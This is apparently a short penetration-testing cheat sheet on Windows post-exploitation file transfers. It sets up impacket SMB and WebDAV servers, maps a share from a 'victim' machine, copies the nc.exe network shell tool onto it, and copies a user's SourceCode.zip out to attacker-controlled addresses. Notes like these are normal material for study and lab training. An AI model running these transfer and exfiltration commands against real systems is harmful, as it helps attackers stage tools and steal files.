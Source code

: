 ```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
```

```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
```

For enabling downloads to victim

```cmd-session
net use n: \\192.168.220.133\share /user:test test
```

```cmd-session
copy n:\nc.exe
```

#### Installing WebDav Python modules
```bash
sudo pip3 install wsgidav cheroot
```
#### Using the WebDav Python module
```bash
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Connecting to the Webdav Share
```cmd-session
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd-session
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
# Tags
> #Post-Exploitation #Windows-Post-Exploitation #File-Transfers #SMB-File-Transfers